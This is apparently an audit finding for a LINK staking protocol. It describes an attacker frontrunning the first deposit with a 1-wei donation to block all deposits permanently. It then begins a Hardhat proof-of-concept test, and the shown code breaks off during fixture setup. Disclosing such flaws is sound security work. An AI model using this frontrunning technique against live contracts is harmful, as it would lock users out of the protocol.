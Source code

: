## Impact

Permanent Denial of Service (DOS) of all `deposits` into the protocol. Renders the whole protocol useless since there can't be any deposits. Attacker can simply frontrun the first `deposit` transaction to `donate` just 1 wei and DOS the protocol.

## Coded Proof of Concept

Create a new `tests.test.ts` file in the `test/core/priorityPool` folder and paste the following code:

```JavaScript
import { assert, expect } from 'chai'
import {
    toEther,
    deploy,
    fromEther,
    deployUpgradeable,
    getAccounts,
    setupToken,
} from '../../utils/helpers'
import {
    ERC677,
    SDLPoolMock,
    StakingPool,
    PriorityPool,
    StrategyMock,
    WithdrawalPool,
} from '../../../typechain-types'
import { ethers } from 'hardhat'
import { StandardMerkleTree } from '@openzeppelin/merkle-tree'
import { loadFixture } from '@nomicfoundation/hardhat-network-helpers'

describe('PriorityPool', () => {
    async function deployFixture() {
        const { accounts, signers } = await getAccounts()
        const adrs: any = {}

        const token = (await deploy('contracts/core/tokens/base/ERC677.sol:ERC677', [
            'Chainlink',
            'LINK',
            1000000000,
        ])) as ERC677
        adrs.token = await token.getAddress()
        await setupToken(token, accounts, true)

        const stakingPool = (await deployUpgradeable('StakingPool', [
            adrs.token,
            'Staked LINK',
            'stLINK',
            [],
            toEther(10000),
        ])) as StakingPool
        adrs.stakingPool = await stakingPool.getAddress()

        const strategy = (await deployUpgradeable('StrategyMock', [
            adrs.token,
            adrs.stakingPool,
            toEther(1000),
            toEther(100),
        ])) as StrategyMock
        adrs.strategy = await strategy.getAddress()

```